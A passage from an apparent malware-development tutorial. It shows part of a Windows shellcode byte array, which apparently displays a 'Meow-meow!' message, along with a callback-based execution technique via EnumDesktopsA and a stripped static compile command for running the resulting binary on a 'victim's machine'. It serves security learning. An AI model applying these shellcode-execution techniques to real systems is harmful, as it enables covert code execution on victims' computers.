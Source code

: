 ```cpp
"\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
"\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
"\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
"\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
"\x2e\x2e\x5e\x3d\x00";
```

For simplicity, I use running shellcode via [EnumDesktopsA](/tutorial/2022/06/27/malware-injection-20.html) logic.      

### demo

Let's go to see this trick in action. Compile our "malware":    

```bash
x86_64-w64-mingw32-g++ -O2 hack.c -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![cryptography](/assets/images/118/2024-04-10_12-17.png){:class="img-responsive"}      

And run it at the victim’s machine (`Windows 10 x64 v1903` in my case):    

